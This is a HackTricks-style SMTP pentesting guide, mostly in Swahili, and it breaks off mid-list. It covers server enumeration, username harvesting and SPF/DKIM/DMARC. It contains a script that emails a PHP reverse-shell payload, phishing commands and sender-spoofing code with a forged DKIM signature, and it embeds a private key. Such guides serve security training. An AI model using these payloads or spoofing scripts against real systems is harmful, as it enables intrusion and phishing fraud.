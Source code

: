 # 25,465,587 - Pentesting SMTP/s

{{#include ../../banners/hacktricks-training.md}}

## **Taarifa za Msingi**

**Simple Mail Transfer Protocol (SMTP)** ni protokali inayotumika ndani ya seti ya TCP/IP kwa **kutuma na kupokea barua pepe**. Kutokana na mipaka yake katika kupanga ujumbe kwenye upande wa mpokeaji, SMTP mara nyingi hutumika pamoja na **POP3 au IMAP**. Protokali hizi za ziada zinawawezesha watumiaji kuhifadhi ujumbe kwenye sanduku la barua la seva na kupakua mara kwa mara.

Katika mazoezi, ni kawaida kwa **programu za barua pepe** kutumia **SMTP kutuma barua pepe**, wakati zinatumia **POP3 au IMAP kupokea** hizo. Kwenye mifumo inayotegemea Unix, **sendmail** inajitokeza kama seva ya SMTP inayotumika mara nyingi kwa madhumuni ya barua pepe. Kifurushi cha kibiashara kinachojulikana kama Sendmail kinajumuisha seva ya POP3. Zaidi ya hayo, **Microsoft Exchange** inatoa seva ya SMTP na inatoa chaguo la kujumuisha msaada wa POP3.

**Bandari ya kawaida:** 25,465(ssl),587(ssl)
```
PORT   STATE SERVICE REASON  VERSION
25/tcp open  smtp    syn-ack Microsoft ESMTP 6.0.3790.3959
```
### EMAIL Headers

Ikiwa una fursa ya **kumfanya mwathirika akutumie barua pepe** (kupitia fomu ya mawasiliano ya ukurasa wa wavuti kwa mfano), fanya hivyo kwa sababu **unaweza kujifunza kuhusu topolojia ya ndani** ya mwathirika kwa kuangalia vichwa vya barua pepe.

Unaweza pia kupata barua pepe kutoka kwa seva ya SMTP ukijaribu **kutuma kwa seva hiyo barua pepe kwa anwani isiyopo** (kwa sababu seva itatuma kwa mshambuliaji barua ya NDN). Lakini, hakikisha unatumia anwani iliyoidhinishwa (angalia sera ya SPF) na kwamba unaweza kupokea ujumbe wa NDN.

Unapaswa pia kujaribu **kutuma maudhui tofauti kwa sababu unaweza kupata habari za kuvutia zaidi** kwenye vichwa kama: `X-Virus-Scanned: by av.domain.com`\
Unapaswa kutuma faili ya mtihani ya EICAR.\
Kugundua **AV** kunaweza kukuwezesha kutumia **vulnerabilities zilizo maarufu.**

## Basic actions

### **Banner Grabbing/Basic connection**

**SMTP:**
```bash
nc -vn <IP> 25
```
**SMTPS**:
```bash
openssl s_client -crlf -connect smtp.mailgun.org:465 #SSL/TLS without starttls command
openssl s_client -starttls smtp -crlf -connect smtp.mailgun.org:587
```
### Kupata seva za MX za shirika
```bash
dig +short mx google.com
```
### Uhesabu
```bash
nmap -p25 --script smtp-commands 10.10.10.10
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### NTLM Auth - Ufunuo wa taarifa

Ikiwa seva inasaidia NTLM auth (Windows) unaweza kupata taarifa nyeti (matoleo). Maelezo zaidi [**hapa**](https://medium.com/@m8r0wn/internal-information-disclosure-using-hidden-ntlm-authentication-18de17675666).
```bash
root@kali: telnet example.com 587
220 example.com SMTP Server Banner
>> HELO
250 example.com Hello [x.x.x.x]
>> AUTH NTLM 334
NTLM supported
>> TlRMTVNTUAABAAAAB4IIAAAAAAAAAAAAAAAAAAAAAAA=
334 TlRMTVNTUAACAAAACgAKADgAAAAFgooCBqqVKFrKPCMAAAAAAAAAAEgASABCAAAABgOAJQAAAA9JAEkAUwAwADEAAgAKAEkASQBTADAAMQABAAoASQBJAFMAMAAxAAQACgBJAEkAUwAwADEAAwAKAEkASQBTADAAMQAHAAgAHwMI0VPy1QEAAAAA
```
Au **automate** hii kwa kutumia **nmap** plugin `smtp-ntlm-info.nse`

### Jina la seva ya ndani - Ufichuzi wa taarifa

Seva zingine za SMTP hujaza kiotomatiki anwani ya mtumaji wakati amri "MAIL FROM" inatolewa bila anwani kamili, ikifichua jina lake la ndani:
```
220 somedomain.com Microsoft ESMTP MAIL Service, Version: Y.Y.Y.Y ready at  Wed, 15 Sep 2021 12:13:28 +0200
EHLO all
250-somedomain.com Hello [x.x.x.x]
250-TURN
250-SIZE 52428800
250-ETRN
250-PIPELINING
250-DSN
250-ENHANCEDSTATUSCODES
250-8bitmime
250-BINARYMIME
250-CHUNKING
250-VRFY
250 OK
MAIL FROM: me
250 2.1.0 me@PRODSERV01.somedomain.com....Sender OK
```
### Sniffing

Angalia kama unapata nenosiri kutoka kwa pakiti za bandari 25

### [Auth bruteforce](../../generic-hacking/brute-force.md#smtp)

## Username Bruteforce Enumeration

**Uthibitisho si lazima kila wakati**

### RCPT TO
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
MAIL FROM:example@domain.com
250 2.1.0 example@domain.com... Sender ok
RCPT TO:test
550 5.1.1 test... User unknown
RCPT TO:admin
550 5.1.1 admin... User unknown
RCPT TO:ed
250 2.1.5 ed... Recipient ok
```
### VRFY
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
250 myhost Hello 18.28.38.48, pleased to meet you
VRFY root
250 Super-User root@myhost
VRFY blah
550 blah... User unknown
```
### EXPN
```bash
$ telnet 1.1.1.1 25
Trying 1.1.1.1...
Connected to 1.1.1.1.
Escape character is '^]'.
220 myhost ESMTP Sendmail 8.9.3
HELO
501 HELO requires domain address
HELO x
EXPN test
550 5.1.1 test... User unknown
EXPN root
250 2.1.5 ed.williams@myhost
EXPN sshd
250 2.1.5 sshd privsep sshd@myhost
```
### Zana za kiotomatiki
```
Metasploit: auxiliary/scanner/smtp/smtp_enum
smtp-user-enum: smtp-user-enum -M <MODE> -u <USER> -t <IP>
Nmap: nmap --script smtp-enum-users <IP>
```
## DSN Reports

**Ripoti ya Hali ya Uwasilishaji**: Ikiwa utatuma **barua pepe** kwa shirika kwa **anwani isiyo sahihi**, shirika litakujulisha kwamba anwani hiyo ilikuwa isiyo sahihi kwa kutuma **barua kwako**. **Vichwa** vya barua pepe iliyorejeshwa vitakuwa na **habari nyeti** zinazoweza kuwepo (kama anwani ya IP ya huduma za barua pepe zilizoshirikiana na ripoti au taarifa za programu ya kupambana na virusi).

## [Commands](smtp-commands.md)

### Kutuma Barua Pepe kutoka kwa konso ya linux
```bash
sendEmail -t to@domain.com -f from@attacker.com -s <ip smtp> -u "Important subject" -a /tmp/malware.pdf
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
- First line must be received within 60 seconds.
- End manual input with a CTRL-D on its own line.

<phishing message>
```

```bash
swaks --to $(cat emails | tr '\n' ',' | less) --from test@sneakymailer.htb --header "Subject: test" --body "please click here http://10.10.14.42/" --server 10.10.10.197
```
### Kutuma Barua Pepe kwa Python

<details>

<summary>Msimbo wa Pyhton hapa</summary>
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

lhost = "127.0.0.1"
lport = 443
rhost = "192.168.1.1"
rport = 25 # 489,587

# create message object instance
msg = MIMEMultipart()

# setup the parameters of the message
password = ""
msg['From'] = "attacker@local"
msg['To'] = "victim@local"
msg['Subject'] = "This is not a drill!"

# payload
message = ("<?php system('bash -i >& /dev/tcp/%s/%d 0>&1'); ?>" % (lhost,lport))

print("[*] Payload is generated : %s" % message)

msg.attach(MIMEText(message, 'plain'))
server = smtplib.SMTP(host=rhost,port=rport)

if server.noop()[0] != 250:
print("[-]Connection Error")
exit()

server.starttls()

# Uncomment if log-in with authencation
# server.login(msg['From'], password)

server.sendmail(msg['From'], msg['To'], msg.as_string())
server.quit()

print("[***]successfully sent email to %s:" % (msg['To']))
```
</details>

## SMTP Smuggling

Ushirikiano wa SMTP Smuggling uliruhusu kupita kupitia ulinzi wote wa SMTP (angalia sehemu inayofuata kwa maelezo zaidi kuhusu ulinzi). Kwa maelezo zaidi kuhusu SMTP Smuggling angalia:

{{#ref}}
smtp-smuggling.md
{{#endref}}

## Hatua za Kupambana na Mail Spoofing

Mashirika yanazuia kutumwa kwa barua pepe zisizoidhinishwa kwa niaba yao kwa kutumia **SPF**, **DKIM**, na **DMARC** kutokana na urahisi wa kudanganya ujumbe wa SMTP.

**mwongozo kamili wa hatua hizi** unapatikana kwenye [https://seanthegeek.net/459/demystifying-dmarc/](https://seanthegeek.net/459/demystifying-dmarc/).

### SPF

> [!CAUTION]
> SPF [ilikuwa "imeondolewa" mwaka 2014](https://aws.amazon.com/premiumsupport/knowledge-center/route53-spf-record/). Hii ina maana kwamba badala ya kuunda **rekodi ya TXT** katika `_spf.domain.com` unaiunda katika `domain.com` ukitumia **sintaksia ile ile**.\
> Zaidi ya hayo, ili kutumia rekodi za spf za awali ni kawaida sana kukutana na kitu kama `"v=spf1 include:_spf.google.com ~all"`

**Sender Policy Framework** (SPF) ni mekanizma inayowezesha Wakala wa Uhamishaji Barua (MTAs) kuthibitisha ikiwa mwenyeji anayesambaza barua pepe ameidhinishwa kwa kuuliza orodha ya seva za barua zilizoidhinishwa zilizofafanuliwa na mashirika. Orodha hii, ambayo inaelezea anwani za IP/mipango, majina ya domain, na vitu vingine **vilivyoidhinishwa kutuma barua pepe kwa niaba ya jina la domain**, inajumuisha "Mekanizma" mbalimbali katika rekodi ya SPF.

#### Mekanizma

Kutoka [Wikipedia](https://en.wikipedia.org/wiki/Sender_Policy_Framework):

| Mekanizma | Maelezo                                                                                                                                                                                                                                                                                                                         |
| --------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| ALL       | Inalingana kila wakati; inatumika kwa matokeo ya chaguo kama `-all` kwa IP zote ambazo hazijalingana na mekanizma za awali.                                                                                                                                                                                                                                  |
| A         | Ikiwa jina la domain lina rekodi ya anwani (A au AAAA) ambayo inaweza kutatuliwa hadi anwani ya mtumaji, italingana.                                                                                                                                                                                                                   |
| IP4       | Ikiwa mtumaji yuko katika eneo fulani la anwani za IPv4, lingana.                                                                                                                                                                                                                                                                              |
| IP6       | Ikiwa mtumaji yuko katika eneo fulani la anwani za IPv6, lingana.                                                                                                                                                                                                                                                                              |
| MX        | Ikiwa jina la domain lina rekodi ya MX inayotatua hadi anwani ya mtumaji, italingana (yaani, barua inatoka katika moja ya seva za barua za kuingia za domain hiyo).                                                                                                                                                                          |
| PTR       | Ikiwa jina la domain (rekodi ya PTR) kwa anwani ya mteja iko katika jina la domain lililotolewa na jina hilo la domain linatatuliwa hadi anwani ya mteja (DNS ya nyuma iliyothibitishwa), lingana. Mekanizma hii inashauriwa kuepukwa, ikiwa inawezekana.                                                                                     |
| EXISTS    | Ikiwa jina la domain lililotolewa linatatuliwa hadi anwani yoyote, lingana (bila kujali anwani inayoelekea). Hii haitumiki mara nyingi. Pamoja na lugha ya macro ya SPF inatoa mechi ngumu zaidi kama DNSBL-queries.                                                                                                                           |
| INCLUDE   | Inarejelea sera ya jina la domain lingine. Ikiwa sera ya jina hilo inapita, mekanizma hii inapita. Hata hivyo, ikiwa sera iliyojumuishwa inashindwa, usindikaji unaendelea. Ili kuhamasisha kikamilifu kwa sera ya jina la domain lingine, kiambatisho cha kuhamasisha kinapaswa kutumika.                                                                                     |
| REDIRECT  | <p>Kupeleka ni kiashiria kwa jina lingine la domain ambalo lina sera ya SPF, inaruhusu majina mengi ya domain kushiriki sera hiyo hiyo ya SPF. Ni muhimu wakati wa kufanya kazi na idadi kubwa ya majina ya domain yanayoshiriki miundombinu ile ile ya barua pepe.</p><p>Sera ya SPF ya jina la domain lililoonyeshwa katika Mekanizma ya kupeleka itatumika.</p> |

Pia inawezekana kubaini **Wakadiriaji** ambao huonyesha **kitu kinachopaswa kufanywa ikiwa mekanizma imefanikiwa**. Kwa kawaida, **wakadiriaji "+"** hutumika (hivyo ikiwa mekanizma yoyote imefanikiwa, hiyo ina maana inaruhusiwa).\
Kwa kawaida utaona **mwishoni mwa kila sera ya SPF** kitu kama: **\~all** au **-all**. Hii inatumika kuonyesha kwamba **ikiwa mtumaji hailingani na sera yoyote ya SPF, unapaswa kuweka alama barua pepe hiyo kama isiyoaminika (\~) au kukataa (-) barua pepe hiyo.**

#### Wakadiriaji

Kila mekanizma ndani ya sera inaweza kuanzishwa kwa moja ya wakadiriaji wanne ili kufafanua matokeo yaliyokusudiwa:

- **`+`**: Inalingana na matokeo ya PASS. Kwa kawaida, mekanizma zinachukulia wakadiriaji huu, na kufanya `+mx` kuwa sawa na `mx`.
- **`?`**: Inawakilisha matokeo ya NEUTRAL, inachukuliwa sawa na NONE (sera maalum).
- **`~`**: Inaashiria SOFTFAIL, ikihudumu kama eneo la kati kati ya NEUTRAL na FAIL. Barua pepe zinazokutana na matokeo haya kwa kawaida zinakubaliwa lakini zinawekwa alama ipasavyo.
- **`-`**: Inaashiria FAIL, ikipendekeza kwamba barua pepe inapaswa kukataliwa moja kwa moja.

Katika mfano ujao, **sera ya SPF ya google.com** inaonyeshwa. Kumbuka kujumlishwa kwa sera za SPF kutoka majina tofauti ya domain ndani ya sera ya kwanza ya SPF:
```shell-session
dig txt google.com | grep spf
google.com.             235     IN      TXT     "v=spf1 include:_spf.google.com ~all"

dig txt _spf.google.com | grep spf
; <<>> DiG 9.11.3-1ubuntu1.7-Ubuntu <<>> txt _spf.google.com
;_spf.google.com.               IN      TXT
_spf.google.com.        235     IN      TXT     "v=spf1 include:_netblocks.google.com include:_netblocks2.google.com include:_netblocks3.google.com ~all"

dig txt _netblocks.google.com | grep spf
_netblocks.google.com.  1606    IN      TXT     "v=spf1 ip4:35.190.247.0/24 ip4:64.233.160.0/19 ip4:66.102.0.0/20 ip4:66.249.80.0/20 ip4:72.14.192.0/18 ip4:74.125.0.0/16 ip4:108.177.8.0/21 ip4:173.194.0.0/16 ip4:209.85.128.0/17 ip4:216.58.192.0/19 ip4:216.239.32.0/19 ~all"

dig txt _netblocks2.google.com | grep spf
_netblocks2.google.com. 1908    IN      TXT     "v=spf1 ip6:2001:4860:4000::/36 ip6:2404:6800:4000::/36 ip6:2607:f8b0:4000::/36 ip6:2800:3f0:4000::/36 ip6:2a00:1450:4000::/36 ip6:2c0f:fb50:4000::/36 ~all"

dig txt _netblocks3.google.com | grep spf
_netblocks3.google.com. 1903    IN      TXT     "v=spf1 ip4:172.217.0.0/19 ip4:172.217.32.0/20 ip4:172.217.128.0/19 ip4:172.217.160.0/20 ip4:172.217.192.0/19 ip4:172.253.56.0/21 ip4:172.253.112.0/20 ip4:108.177.96.0/19 ip4:35.191.0.0/16 ip4:130.211.0.0/22 ~all"
```
Kiasili ilikuwa inawezekana kudanganya jina lolote la kikoa ambalo halikuwa na rekodi sahihi/ya SPF. **Sasa**, ikiwa **barua pepe** inatoka kwenye **kikoa kisichokuwa na rekodi halali ya SPF** kuna uwezekano mkubwa itakubaliwa/kutambuliwa kama isiyoaminika kiotomatiki.

Ili kuangalia SPF ya kikoa unaweza kutumia zana za mtandaoni kama: [https://www.kitterman.com/spf/validate.html](https://www.kitterman.com/spf/validate.html)

### DKIM (DomainKeys Identified Mail)

DKIM inatumika kusaini barua pepe zinazotumwa, ikiruhusu uthibitishaji wao na Wakala wa Usafirishaji wa Barua (MTAs) kupitia upatikanaji wa funguo za umma za kikoa kutoka DNS. Funguo hii ya umma iko katika rekodi ya TXT ya kikoa. Ili kufikia funguo hii, mtu lazima ajue mteule na jina la kikoa.

Kwa mfano, ili kuomba funguo, jina la kikoa na mteule ni muhimu. Hizi zinaweza kupatikana katika kichwa cha barua `DKIM-Signature`, e.g., `d=gmail.com;s=20120113`.

Amri ya kupata habari hii inaweza kuonekana kama:
```bash
dig 20120113._domainkey.gmail.com TXT | grep p=
# This command would return something like:
20120113._domainkey.gmail.com. 280 IN   TXT    "k=rsa\; p=MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA1Kd87/UeJjenpabgbFwh+eBCsSTrqmwIYYvywlbhbqoo2DymndFkbjOVIPIldNs/m40KF+yzMn1skyoxcTUGCQs8g3
```
### DMARC (Domain-based Message Authentication, Reporting & Conformance)

DMARC inaboresha usalama wa barua pepe kwa kujenga juu ya protokali za SPF na DKIM. Inabainisha sera zinazongoza seva za barua katika kushughulikia barua pepe kutoka kwa kikoa maalum, ikiwa ni pamoja na jinsi ya kushughulikia kushindwa kwa uthibitisho na wapi kutuma ripoti kuhusu vitendo vya usindikaji wa barua pepe.

**Ili kupata rekodi ya DMARC, unahitaji kuuliza subdomain \_dmarc**
```bash
# Reject
dig _dmarc.facebook.com txt | grep DMARC
_dmarc.facebook.com.	3600	IN	TXT	"v=DMARC1; p=reject; rua=mailto:a@dmarc.facebookmail.com; ruf=mailto:fb-dmarc@datafeeds.phishlabs.com; pct=100"

# Quarantine
dig _dmarc.google.com txt | grep DMARC
_dmarc.google.com.	300	IN	TXT	"v=DMARC1; p=quarantine; rua=mailto:mailauth-reports@google.com"

# None
dig _dmarc.bing.com txt | grep DMARC
_dmarc.bing.com.	3600	IN	TXT	"v=DMARC1; p=none; pct=100; rua=mailto:BingEmailDMARC@microsoft.com;"
```
#### DMARC tags

| Tag Name | Purpose                                       | Sample                          |
| -------- | --------------------------------------------- | ------------------------------- |
| v        | Protocol version                              | v=DMARC1                        |
| pct      | Percentage of messages subjected to filtering | pct=20                          |
| ruf      | Reporting URI for forensic reports            | ruf=mailto:authfail@example.com |
| rua      | Reporting URI of aggregate reports            | rua=mailto:aggrep@example.com   |
| p        | Policy for organizational domain              | p=quarantine                    |
| sp       | Policy for subdomains of the OD               | sp=reject                       |
| adkim    | Alignment mode for DKIM                       | adkim=s                         |
| aspf     | Alignment mode for SPF                        | aspf=r                          |

### **What about Subdomains?**

**Kutoka** [**hapa**](https://serverfault.com/questions/322949/do-spf-records-for-primary-domain-apply-to-subdomains)**.**\
Unahitaji kuwa na rekodi za SPF tofauti kwa kila subdomain unayotaka kutuma barua kutoka.\
Hii ilichapishwa awali kwenye openspf.org, ambayo ilikuwa rasilimali nzuri kwa aina hii ya mambo.

> Swali la Demon: Je, kuhusu subdomains?
>
> Ikiwa napokea barua kutoka pielovers.demon.co.uk, na hakuna data ya SPF kwa pielovers, je, ni lazima nirudi ngazi moja na kujaribu SPF kwa demon.co.uk? Hapana. Kila subdomain katika Demon ni mteja tofauti, na kila mteja anaweza kuwa na sera yake mwenyewe. Haitawezekana kwa sera ya Demon kutumika kwa wateja wote kwa default; ikiwa Demon inataka kufanya hivyo, inaweza kuweka rekodi za SPF kwa kila subdomain.
>
> Hivyo ushauri kwa wachapishaji wa SPF ni huu: unapaswa kuongeza rekodi ya SPF kwa kila subdomain au jina la mwenyeji ambalo lina rekodi ya A au MX.
>
> Tovuti zenye rekodi za A au MX za wildcard pia zinapaswa kuwa na rekodi ya SPF ya wildcard, ya aina: \* IN TXT "v=spf1 -all"

Hii ina maana - subdomain inaweza kuwa katika eneo tofauti la kijiografia na kuwa na ufafanuzi wa SPF tofauti sana.

### **Open Relay**

Wakati barua pepe zinatumwa, kuhakikisha hazitapewa alama kama spam ni muhimu. Hii mara nyingi inapatikana kupitia matumizi ya **seva ya relay ambayo inatambulika na mpokeaji**. Hata hivyo, changamoto ya kawaida ni kwamba wasimamizi huenda hawajui kikamilifu ni **mifumo ya IP ipi salama kuruhusu**. Ukosefu huu wa uelewa unaweza kusababisha makosa katika kuanzisha seva ya SMTP, hatari ambayo mara nyingi inatambuliwa katika tathmini za usalama.

Njia mbadala ambayo wasimamizi wengine hutumia ili kuepuka matatizo ya usambazaji wa barua pepe, hasa kuhusu mawasiliano na wateja wanaowezekana au wanaoendelea, ni **kuruhusu muunganisho kutoka anwani yoyote ya IP**. Hii inafanywa kwa kuunda parameter ya `mynetworks` ya seva ya SMTP ili kukubali anwani zote za IP, kama inavyoonyeshwa hapa chini:
```bash
mynetworks = 0.0.0.0/0
```
Ili kuangalia kama seva ya barua ni relay wazi (ambayo inamaanisha inaweza kupeleka barua pepe kutoka chanzo chochote cha nje), zana ya `nmap` hutumika mara nyingi. Inajumuisha skripti maalum iliyoundwa kupima hili. Amri ya kufanya skana ya kina kwenye seva (kwa mfano, ikiwa na IP 10.10.10.10) kwenye bandari ya 25 kwa kutumia `nmap` ni:
```bash
nmap -p25 --script smtp-open-relay 10.10.10.10 -v
```
### **Vifaa**

- [**https://github.com/serain/mailspoof**](https://github.com/serain/mailspoof) **Angalia makosa ya SPF na DMARC**
- [**https://pypi.org/project/checkdmarc/**](https://pypi.org/project/checkdmarc/) **Pata mipangilio ya SPF na DMARC kiotomatiki**

### Tuma Barua Pepe ya Kughushi

- [**https://www.mailsploit.com/index**](https://www.mailsploit.com/index)
- [**http://www.anonymailer.net/**](http://www.anonymailer.net)
- [**https://emkei.cz/**](https://emkei.cz/)

**Au unaweza kutumia kifaa:**

- [**https://github.com/magichk/magicspoofing**](https://github.com/magichk/magicspoofing)
```bash
# This will send a test email from test@victim.com to destination@gmail.com
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com
# But you can also modify more options of the email
python3 magicspoofmail.py -d victim.com -t -e destination@gmail.com --subject TEST --sender administrator@victim.com
```
> [!WARNING]
> Ikiwa unapata **makosa katika kutumia maktaba ya dkim python** wakati wa kuchambua funguo, jisikie huru kutumia hii ifuatayo.\
> **KUMBUKA**: Hii ni suluhisho chafu tu la kufanya ukaguzi wa haraka katika hali ambapo kwa sababu fulani funguo ya faragha ya openssl **haiwezi kuchambuliwa na dkim**.
>
> ```
> -----BEGIN RSA PRIVATE KEY-----
> MIICXgIBAAKBgQDdkohAIWT6mXiHpfAHF8bv2vHTDboN2dl5pZKG5ZSHCYC5Z1bt
> spr6chlrPUX71hfSkk8WxnJ1iC9Moa9sRzdjBrxPMjRDgP8p8AFdpugP5rJJXExO
> pkZcdNPvCXGYNYD86Gpous6ubn6KhUWwDD1bw2UFu53nW/AK/EE4/jeraQIDAQAB
> AoGAe31lrsht7TWH9aJISsu3torCaKyn23xlNuVO6xwdUb28Hpk327bFpXveKuS1
> koxaLqQYrEriFBtYsU8T5Dc06FQAVLpUBOn+9PcKlxPBCLvUF+/KbfHF0q1QbeZR
> fgr+E+fPxwVPxxk3i1AwCP4Cp1+bz2s58wZXlDBkWZ2YJwECQQD/f4bO2lnJz9Mq
> 1xsL3PqHlzIKh+W+yiGmQAELbgOdX4uCxMxjs5lwGSACMH2nUwXx+05RB8EM2m+j
> ZBTeqxDxAkEA3gHyUtVenuTGClgYpiwefaTbGfYadh0z2KmiVcRqWzz3hDUEWxhc
> GNtFT8wzLcmRHB4SQYUaS0Df9mpvwvdB+QJBALGv9Qci39L0j/15P7wOYMWvpwOf
> 422+kYxXcuKKDkWCTzoQt7yXCRzmvFYJdznJCZdymNLNu7q+p2lQjxsUiWECQQCI
> Ms2FP91ywYs1oWJN39c84byBKtiFCdla3Ib48y0EmFyJQTVQ5ZrqrOrSz8W+G2Do
> zRIKHCxLapt7w0SZabORAkEAxvm5pd2MNVqrqMJHbukHY1yBqwm5zVIYr75eiIDP
> K9B7U1w0CJFUk6+4Qutr2ROqKtNOff9KuNRLAOiAzH3ZbQ==
> -----END RSA PRIVATE KEY-----
> ```

**Au unaweza kufanya hivyo kwa mikono:**

{{#tabs}}
{{#tab name="PHP"}}

<pre class="language-php"><code class="lang-php"><strong># Hii itatuma ujumbe usio na saini
</strong><strong>mail("your_email@gmail.com", "Test Subject!", "hey! Hii ni jaribio", "From: administrator@victim.com");
</strong></code></pre>

{{#endtab}}

{{#tab name="Python"}}
```python
# Code from https://github.com/magichk/magicspoofing/blob/main/magicspoofmail.py

import os
import dkim #pip3 install dkimpy
import smtplib
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
from email.mime.base import MIMEBase

# Set params
destination="destination@gmail.com"
sender="administrator@victim.com"
subject="Test"
message_html="""
<html>
<body>
<h3>This is a test, not a scam</h3>
<br />
</body>
</html>
"""
sender_domain=sender.split("@")[1]

# Prepare postfix
os.system("sudo sed -ri 's/(myhostname) = (.*)/\\1 = "+sender_domain+"/g' /etc/postfix/main.cf")
os.system("systemctl restart postfix")

# Generate DKIM keys
dkim_private_key_path="dkimprivatekey.pem"
os.system(f"openssl genrsa -out {dkim_private_key_path} 1024 2> /dev/null")
with open(dkim_private_key_path) as fh:
dkim_private_key = fh.read()

# Generate email
msg = MIMEMultipart("alternative")
msg.attach(MIMEText(message_html, "html"))
msg["To"] = destination
msg["From"] = sender
msg["Subject"] = subject
headers = [b"To", b"From", b"Subject"]
msg_data = msg.as_bytes()

# Sign email with dkim
## The receiver won't be able to check it, but the email will appear as signed (and therefore, more trusted)
dkim_selector="s1"
sig = dkim.sign(message=msg_data,selector=str(dkim_selector).encode(),domain=sender_domain.encode(),privkey=dkim_private_key.encode(),include_headers=headers)
msg["DKIM-Signature"] = sig[len("DKIM-Signature: ") :].decode()
msg_data = msg.as_bytes()

# Use local postfix relay to send email
smtp="127.0.0.1"
s = smtplib.SMTP(smtp)
s.sendmail(sender, [destination], msg_data)
```
{{#endtab}}
{{#endtabs}}

### **Maelezo zaidi**

**Pata maelezo zaidi kuhusu ulinzi hizi katika** [**https://seanthegeek.net/459/demystifying-dmarc/**](https://seanthegeek.net/459/demystifying-dmarc/)

### **Dalili nyingine za phishing**

- Umri wa domain
- Viungo vinavyoelekeza kwenye anwani za IP
- Mbinu za manipulation ya viungo
- Viambatisho vya kushangaza (visivyo vya kawaida)
- Maudhui ya barua pepe yaliyovunjika
- Thamani zinazotumika ambazo ni tofauti na zile za vichwa vya barua
- Upoaji wa cheti halali na kinachoaminika cha SSL
- Uwasilishaji wa ukurasa kwa tovuti za kuchuja maudhui ya wavuti

## Uhamasishaji kupitia SMTP

**Ikiwa unaweza kutuma data kupitia SMTP** [**soma hii**](../../generic-hacking/exfiltration.md#smtp)**.**

## Faili ya config

### Postfix

Kawaida, ikiwa imewekwa, katika `/etc/postfix/master.cf` ina **scripts za kutekeleza** wakati kwa mfano barua mpya inapopokelewa na mtumiaji. Kwa mfano, mstari `flags=Rq user=mark argv=/etc/postfix/filtering-f ${sender} -- ${recipient}` unamaanisha kwamba `/etc/postfix/filtering` itatekelezwa ikiwa barua mpya inapokelewa na mtumiaji mark.

Faili nyingine za config:
```
sendmail.cf
submit.cf
```
## Marejeo

- [https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/](https://research.nccgroup.com/2015/06/10/username-enumeration-techniques-and-their-value/)
- [https://www.reddit.com/r/HowToHack/comments/101it4u/what_could_hacker_do_with_misconfigured_smtp/](https://www.reddit.com/r/HowToHack/comments/101it4u/what_could_hacker_do_with_misconfigured_smtp/)

## HackTricks Amri za Otomatiki
```
Protocol_Name: SMTP    #Protocol Abbreviation if there is one.
Port_Number:  25,465,587     #Comma separated if there is more than one.
Protocol_Description: Simple Mail Transfer Protocol          #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for SMTP
Note: |
SMTP (Simple Mail Transfer Protocol) is a TCP/IP protocol used in sending and receiving e-mail. However, since it is limited in its ability to queue messages at the receiving end, it is usually used with one of two other protocols, POP3 or IMAP, that let the user save messages in a server mailbox and download them periodically from the server.

https://book.hacktricks.xyz/pentesting/pentesting-smtp

Entry_2:
Name: Banner Grab
Description: Grab SMTP Banner
Command: nc -vn {IP} 25

Entry_3:
Name: SMTP Vuln Scan
Description: SMTP Vuln Scan With Nmap
Command: nmap --script=smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 {IP}

Entry_4:
Name: SMTP User Enum
Description: Enumerate uses with smtp-user-enum
Command: smtp-user-enum -M VRFY -U {Big_Userlist} -t {IP}

Entry_5:
Name: SMTPS Connect
Description: Attempt to connect to SMTPS two different ways
Command: openssl s_client -crlf -connect {IP}:465 &&&& openssl s_client -starttls smtp -crlf -connect {IP}:587

Entry_6:
Name: Find MX Servers
Description: Find MX servers of an organization
Command: dig +short mx {Domain_Name}

Entry_7:
